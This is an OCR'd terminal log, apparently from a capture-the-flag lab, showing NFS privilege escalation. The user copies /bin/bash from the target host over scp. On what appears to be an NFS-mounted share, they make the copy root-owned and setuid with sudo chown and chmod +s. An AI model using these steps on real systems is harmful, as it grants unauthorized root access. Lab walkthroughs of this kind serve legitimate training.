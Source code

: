```


44 packages can be updated.
0 updates are security updates.


Last login: Thu Jun  4 14:37:50 2020
```
cappucino@polonfs:\~$  echo $SHELL
```
/bin/bash
```
cappucino@polonfs:\~$  stat /bin/bash
```
  File: /bin/bash
  Size: 1113504   	Blocks: 2176       IO Block: 4096   regular file
Device: ca02h/51714d	Inode: 393562      Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-06-20 11:48:39.988000000 +0000
Modify: 2019-06-06 22:28:15.000000000 +0000
Change: 2020-04-21 22:18:17.228000000 +0000
 Birth: -
```
cappucino@polonfs:~$  exit
```
logout
Connection to 10.10.243.171 closed.
```
~/Documents $  scp -i id_rsa cappucino@10.10.243.171:/bin/bash ./bash-nfs
```
bash                                                                                                       100% 1087KB  28.0KB/s   00:38
```
~/Documents $  stat bash-nfs
```
  File: bash-nfs
  Size: 1113504   	Blocks: 2176       IO Block: 4096   regular file
Device: 0,42	Inode: 1967270     Links: 1
Access: (0755/-rwxr-xr-x)  Uid: ( 1000/  isla)   Gid: ( 1000/  isla)
Access: 2024-06-20 19:03:23.731565869 +0700
Modify: 2024-06-20 19:04:02.549126170 +0700
Change: 2024-06-20 19:04:02.549126170 +0700
 Birth: 2024-06-20 19:03:23.731565869 +0700
```
~/Documents $  sudo chown root:root bash-nfs
```
[sudo] password for isla:
```
~/Documents $  stat bash-nfs
```
  File: bash-nfs
  Size: 1113504   	Blocks: 2176       IO Block: 4096   regular file
Device: 0,42	Inode: 1967270     Links: 1
Access: (0755/-rwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2024-06-20 19:03:23.731565869 +0700
Modify: 2024-06-20 19:04:02.549126170 +0700
Change: 2024-06-20 19:05:02.306449281 +0700
 Birth: 2024-06-20 19:03:23.731565869 +0700
```
~/Documents $  sudo chmod +s bash-nfs
~/Documents $  stat bash-nfs
```
  File: bash-nfs
  Size: 1113504   	Blocks: 2176       IO Block: 4096   regular file
Device: 0,42	Inode: 1967270     Links: 1
Access: (6755/-rwsr-sr-x)  Uid: (    0/    root)   Gid: (    0/    root)
```